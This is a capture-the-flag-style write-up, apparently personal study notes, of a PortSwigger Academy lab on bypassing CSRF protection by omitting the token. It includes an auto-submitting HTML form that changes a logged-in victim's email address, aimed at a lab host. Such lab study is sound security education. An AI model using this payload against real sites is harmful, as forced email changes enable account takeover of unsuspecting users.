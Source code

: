 
### CSRF where token validation depends on token being present : PRACTITIONER

---


> Given credentials `wiener:peter`.

> Logging in with the given credentials.

![](./screenshots/lab1-1.png)

> We see this page.

![](./screenshots/lab1-2.png)

> We know that the update email is vulnerable to CSRF.
> Capturing a `POST` request via BURPSUITE PROXY HTTP history while updating the email address.

![](./screenshots/lab3-1.png)

> Sending this request we change the email normally.
> Trying to play with the `csrf` parameter by changing its value.

![](./screenshots/lab3-2.png)

> We can't play with, lets try to remove it entirely and see if the website checks for it.

![](./screenshots/lab3-3.png)

> We see that it responds normally and it works.

> Now we have a basis for a CSRF attack.
* Relevant action.
* All parameters are known.
* Using session cookies to track users.

> Crafting an HTML payload similar to [[Portswigger/CSRF/Lab 1|Lab 1]].

```HTML
<html> 
	<body> 
		<form action="https://https://0a7f00db044ac6e3817dde74004400da.web-security-academy.net/my-account/change-email" method="POST"> 
			<input type="hidden" name="email" value="mins1@mins.com" /> 
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

> Putting this HTML page in the exploit server.

![](./screenshots/lab3-4.png)

> Delivering the exploit to victim to complete the lab.

---
